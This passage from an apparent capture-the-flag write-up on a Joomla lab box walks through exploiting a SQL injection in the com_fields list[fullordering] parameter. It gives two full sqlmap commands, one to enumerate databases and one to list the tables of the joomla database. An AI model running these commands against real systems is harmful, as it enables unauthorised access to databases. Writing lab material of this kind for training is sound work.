 The exploit instructs us to use `sqlmap` to launch the SQL injection attack. We can simply use the command provided (highlighted above):

```
sqlmap -u "http://10.10.172.68/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --batch
```

**Results:**

![screenshot8](../assets/images/daily_bugle/screenshot8.png)

After quite some time (sqlmap can take awhile!),  we are able to enumerate the various databases stored on the backend. The database that we are particularly interested in is the **joomla** database.  

We then update our sqlmap command so as to enumerate the tables found within the 'joomla' database. To do so, we use the `-D` option to specify the database and `--tables` to dump out the table names: 

```
sqlmap -u "http://10.10.172.68/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla --tables --batch
```

**Results:**

![screenshot9](../assets/images/daily_bugle/screenshot9.png)
